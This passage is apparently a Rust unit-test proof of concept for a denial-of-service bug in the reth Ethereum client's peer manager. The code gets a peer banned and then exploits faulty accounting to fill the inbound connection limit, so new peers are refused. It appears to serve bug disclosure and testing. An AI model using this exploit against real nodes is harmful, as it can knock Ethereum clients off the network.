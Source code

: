 ```rust
            &EthStreamError::InvalidMessage(reth_eth_wire::message::MessageError::Invalid(reth_eth_wire::EthVersion::Eth68, reth_eth_wire::EthMessageID::Status)),
            // Alternatively use: &EthStreamError::MessageTooBig(100),
        );

        if peers.peers.get(&peer).unwrap().is_banned() {
            break;
        }

        assert!(peers.on_incoming_pending_session(socket_addr.ip()).is_ok());
        peers.on_incoming_session_established(peer, socket_addr);

        match event!(peers) {
            PeerAction::Connect { peer_id, .. } => {
                assert_eq!(peer_id, peer);
            }
            _ => unreachable!(),
        }
    }

    // TODO: a proper unit test would make the below assertion.
    // However, we will skip this and continue the exploit, since a bug
    // causes this invariant to be violated
    // assert!(peers.ban_list.is_banned_peer(&peer));
    println!("is_banned_peer: {}", peers.ban_list.is_banned_peer(&peer));

    // use the exploit to increase num_inbound to the limit
    for _ in 0..peers.connection_info.config.max_inbound {
        assert!(peers.on_incoming_pending_session(socket_addr.ip()).is_ok());
        peers.on_incoming_session_established(peer, socket_addr);

        match event!(peers) {
            PeerAction::DisconnectBannedIncoming { peer_id } => {
                assert_eq!(peer_id, peer);
            }
            _ => unreachable!(),
        }
    }

    poll_fn(|cx| {
        assert!(peers.poll(cx).is_pending());
        Poll::Ready(())
    })
    .await;

    // TODO: a proper unit test would make the below assertion, but we will
    // just print it instead and continue the exploit, since it does not hold
    // assert_eq!(peers.connection_info.num_inbound, 0);
    println!("num_inbound: {}", peers.connection_info.num_inbound);

    let new_addr = SocketAddr::new(IpAddr::V4(Ipv4Addr::new(127, 0, 1, 3)), 8008);
    // This final assertion will fail due to the DoS, but normally it should work
    assert!(peers.on_incoming_pending_session(new_addr.ip()).is_ok());
}
```
